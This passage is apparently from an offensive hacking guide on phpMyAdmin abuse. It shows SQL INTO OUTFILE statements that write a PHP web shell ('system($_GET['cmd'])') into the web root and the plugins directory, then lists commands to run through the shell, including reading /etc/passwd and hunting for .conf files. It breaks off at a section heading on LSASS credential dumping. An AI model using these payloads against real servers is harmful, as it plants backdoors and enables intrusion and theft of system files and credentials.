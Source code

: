 ```bash
   }

   ?>' INTO OUTFILE '/var/www/html/admin.php';

   ```

   This creates a password-protected web shell with a simple interface.
   
   **Method 5: Using phpMyAdmin Plugins Directory**

   If you have sufficient permissions:

   1. Identify the phpMyAdmin plugins directory (often `/usr/share/phpmyadmin/plugins/` or similar)
   2. Use the SQL OUTFILE command to write a PHP file to that directory:

   ```sql

   SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/usr/share/phpmyadmin/plugins/shell.php";

   ```

   3. Access the shell via:

   ```bash
   http://192.168.74.162/phpMyAdmin/plugins/shell.php?cmd=id
   ```

   **Testing and Using Your Web Shell**

   After deploying the web shell, test it with basic commands:

   ```
   ?cmd=id                   # Show user ID

   ?cmd=whoami               # Show current user

   ?cmd=uname%20-a           # Show system information

   ?cmd=cat%20/etc/passwd    # View passwd file

   ?cmd=ls%20-la             # List files with details

   ?cmd=pwd                  # Show current directory

   ```

   For more complex commands, use URL encoding for special characters:

   ```
   ?cmd=find%20/%20-name%20%22*.conf%22%20-type%20f%202>/dev/null
   ```

   This command searches for all .conf files on the system.

---
## OS Credential Dumping

### LSASS Memory Analysis

The Local Security Authority Subsystem Service (lsass.exe) is a critical component of the Windows security subsystem responsible for managing user authentication and creating security tokens for login sessions.

```